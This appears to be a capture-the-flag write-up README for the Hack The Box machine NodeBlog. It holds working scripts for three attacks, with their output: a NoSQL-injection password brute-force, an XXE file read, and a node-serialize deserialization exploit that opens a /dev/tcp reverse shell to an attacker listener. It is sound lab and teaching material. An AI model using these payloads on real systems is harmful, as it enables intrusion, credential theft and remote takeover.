# Hack The Box. Machines. NodeBlog

Machine write-up: https://7rocky.github.io/en/htb/nodeblog

### `nosqli.sh`

This script performs a NoSQLi injection attack to extract a clear-text password using `$regex` MongoDB operator.

First, it starts obtaining the length of the password:

```bash
url=10.10.11.139:5000/login
user=admin

function do_nosqli() {
	curl $url -H 'Content-Type: application/json' -sd $1 | grep Invalid
}

while true; do
	data='{"user":"'$user'","password":{"$regex":"^.{'$password_length'}$"}}'
	echo -ne "Password length: $password_length\r"

	if [ -z "$(do_nosqli "$data")" ]; then
		break
	fi

	password_length=$((password_length + 1))
done
```

Basically, we are using a regular expression like `^.{3}$` to match any character `3` times from start to end. So, we iterate this number until we find the perfect match (where `Invalid` is not shown). Manually, this is the idea:

```console
$ curl 10.10.11.139:5000/login -sd '{"user":"admin","password":{"$regex":"^.{24}$"}}' -H 'Content-Type: application/json' | grep Invalid
            Invalid Password

$ curl 10.10.11.139:5000/login -sd '{"user":"admin","password":{"$regex":"^.{25}$"}}' -H 'Content-Type: application/json' | grep Invalid
```

After that, we start dumping the characters of the password using `$regex` again:

```bash
for i in $(seq 1 $password_length); do
	echo -ne "Password: $password\r"

	for c in {A..Z} {a..z} {0..9}; do
		data='{"user":"'$user'","password":{"$regex":"^'$password$c'.{'$(($password_length - $i))'}$"}}'

		if [ -z "$(do_nosqli $data)" ]; then
			password+=$c
			break
		fi
	done
done
```

This time, we iterate a character at a certain position until it matches. For example: `^A.{24}$` through `^9.{24}$` until some character matches. Then, we continue with `^IA.{23}$` through `^I9.{23}$` until we get the full password.

The password is obtained if we run the script:

```console
$ bash nosqli.sh
Password length: 25
Password: IppsecSaysPleaseSubscribe
```

### `xxe.py`

This script allows us to read files from the server provided the absolute path to a file using an XML External Entity (XXE) injection.

The website parses an XML document to fill in the fields in a form to edit a blog post. In the uploaded XML document, we can add an entity to extract the contents of a file. For instance:

```xml
<?xml version="1.0"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<post>
  <title></title>
  <description>&xxe;</description>
  <markdown></markdown>
</post>
```

The contents of `/etc/passwd` will be printed in a `<textarea>` (read the [write-up](https://7rocky.github.io/en/htb/nodeblog) to see a proof of concept).

The `main` function does precisely this task:

```python
def main():
    if len(sys.argv) == 1:
        print(f'Usage: python3 {sys.argv[0]} <filename>')
        exit(1)

    filename = sys.argv[1]
    xml = send_xml(filename)

    try:
        print(html.unescape(re.findall(r'<textarea.*?>(.*?)</textarea>', xml, re.DOTALL)[0]))
    except IndexError:
        print('Not Found')
```

And `send_xml` only puts the name of the file in the entity and sends it as a file attachment called `test.xml`:

```python
def send_xml(filename):
    xml = f'''<?xml version="1.0"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file://{filename}"> ]>
<example>
  <title></title>
  <description>&xxe;</description>
  <markdown></markdown>
</example>
'''

    res = requests.post('http://10.10.11.139:5000/articles/xml', files={'file': ('test.xml', xml)})

    return res.text
```

Curiously, there is no need to be authenticated. If we run the script, we can get the contents of a file. For example:

```console
$ python3 xxe.py /etc/hosts
127.0.0.1 nodeblog localhost
127.0.1.1 ubuntu-template

# The following lines are desirable for IPv6 capable hosts
::1     ip6-localhost ip6-loopback
fe00::0 ip6-localnet
ff00::0 ip6-mcastprefix
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters
```

### `unserialize_rce.js`

This script is used to obtain a reverse shell on the machine because it uses `unserialize` method from `node-serialize`. This Node.js module is known to have a Remote Code Execution (RCE) vulnerability (more information at [snyk.io](https://security.snyk.io/vuln/npm:node-serialize:20170208), CVE-2017-5941).

The idea is to add this payload so that `unserialize` executes it:

```js
const serialize = require('node-serialize')
const payload = `{"rce":"_$$ND_FUNC$$_function() { require('child_process').exec('ls') }()"}`
serialize.unserialize(payload)
```

The `unserialize` method is called on a session cookie that is in JSON format (using URL encoding). So, the idea is to add the previous payload into the cookie and send it.

In the script, first we login in order to get a valid session cookie, and then we send the RCE payload inside the cookie:

```js
const [lhost, lport] = process.argv.slice(2, 4)

const main = async () => {
  if (!lhost || !lport) {
    console.log('[!] Usage: node unserialize_rce.js <lhost> <lport>')
    process.exit()
  }

  const cookie = await login()
  console.log('[+] Login successful')

  await rce(cookie, `echo ${reverseShell()} | base64 -d | bash`)
  console.log('[+] RCE completed')
}

main()
```

The use of `reverseShell` is to use a command that executes a reverse shell and encoded in Base64:

```js
const reverseShell = () =>
  Buffer.from(`bash  -i >& /dev/tcp/${lhost}/${lport} 0>&1`).toString('base64')
```

The `login` function only authenticates with credentials obtained before and returns the session cookie:

```js
const axios = require('axios')

const user = 'admin'
const password = 'IppsecSaysPleaseSubscribe'
const baseUrl = 'http://10.10.11.139:5000'

const login = async () => {
  const res = await axios.post(`${baseUrl}/login`, { user, password })

  return res.headers['set-cookie'][0]
}
```

Finally, the `rce` function is this one:

```js
const rce = async (cookie, cmd) => {
  const paramIndex = cookie.indexOf(';')

  cookie =
    cookie.substring(0, paramIndex - 3) +
    encodeURIComponent(
      `,"rce":"_$$ND_FUNC$$_function() { require('child_process').exec('${cmd}') }()"}`
    ) +
    cookie.substring(paramIndex)

  await axios.get(baseUrl, { headers: { cookie } })
}
```

Basically, the cookie return from `login` is something like this:

```
auth=%7B%22user%22%3A%22admin%,%22sign%22%3A%2223e112072945418601deb47d9a6c7de8%22%7D; Max-Age=900; Path=/; HttpOnly
```

Hence, the function gets the index of the first semi-colon (`;`), in order to add the RCE payload before `%7D` (which is `}` in URL encoding). All the cookie must have a valid URL encoding. Finally, we send it.

Using `nc` on another terminal, we get access to the machine:

```console
$ npm install

$ node unserialize_rce.js 10.10.17.44 4444
[+] Login successful
[+] RCE completed
```

```console
$ nc -nlvp 4444
Ncat: Version 7.92 ( https://nmap.org/ncat )
Ncat: Listening on :::4444
Ncat: Listening on 0.0.0.0:4444
Ncat: Connection from 10.10.11.139.
Ncat: Connection from 10.10.11.139:55018.
bash: cannot set terminal process group (861): Inappropriate ioctl for device
bash: no job control in this shell
admin@nodeblog:/opt/blog$
```


